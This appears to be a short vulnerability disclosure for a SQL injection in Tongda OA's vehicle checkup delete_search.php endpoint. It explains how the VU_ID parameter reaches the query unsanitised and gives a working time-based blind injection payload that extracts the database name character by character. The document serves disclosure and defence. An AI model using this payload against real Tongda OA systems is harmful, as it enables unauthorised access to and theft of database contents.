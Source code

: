 Tongda OA has a front-end SQL injection vulnerability

version:Tongda<=v11.10、=v2017 version

1.
Route: general/vehicle/checkup/delete_search.php

There are injected parameters: $VU_ID

The code here is very concise. When $VU_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/qq956801985/cve/assets/29126012/a6dfd527-37d4-4d40-b8c0-db1099985afb)
2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/qq956801985/cve/assets/29126012/918f73f8-0510-470b-b25d-2e4310d11882)

And when we change 116 to 115, there is no delay here, indicating that there is SQL injection.

![image](https://github.com/qq956801985/cve/assets/29126012/7b8483bf-4c26-438e-9dd2-051e352decca)
